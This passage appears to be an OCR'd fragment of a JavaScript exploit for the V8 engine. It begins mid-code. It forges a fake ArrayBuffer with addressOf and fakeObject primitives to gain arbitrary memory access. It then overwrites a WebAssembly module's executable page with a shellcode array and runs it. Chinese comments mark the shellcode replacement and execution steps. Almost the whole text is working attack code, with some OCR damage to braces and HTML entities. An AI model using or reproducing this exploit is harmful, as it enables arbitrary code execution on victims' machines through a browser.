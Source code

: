 ```
   `}`
   obj2.x = `{`z:i2f64(addr + 0x1n)`}`;
   return f(obj2);
`}`

const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var faker = [0.0,1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];
var faker_addr = addressOf(faker);
print('faker_addr='+faker_addr.toString(16));
wasm_shellcode_ptr_addr = addressOf1(wasmInstance) + 0x80n;
var element_addr = faker_addr - 0x50n;
print('element_addr=' + element_addr.toString(16));
//fake a ArrayBuffer's Map
faker[0] = i2f64(0n);
faker[1] = i2f64(0x1900042317080808n);
faker[2] = i2f64(0x00000000084003ffn);
faker[3] = i2f64(0);

//faker a ArrayBuffer
faker[4] = i2f64(element_addr+0x1n); //map
faker[5] = i2f64(0); //properties
faker[6] = i2f64(0); //elements
faker[7] = p64f(0xffffffff,0); //length
faker[8] = i2f64(wasm_shellcode_ptr_addr);
faker[9] = 0x2;

var arb_ArrayBuffer = fakeObject(element_addr+0x20n);
var adv = new DataView(arb_ArrayBuffer);
var wasm_shellcode_addr = adv.getBigUint64(0,true);
print('wasm_shellcode_addr=' + wasm_shellcode_addr.toString(16));
faker[8] = i2f64(wasm_shellcode_addr);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//%SystemBreak();
//执行shellcode
func();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
```
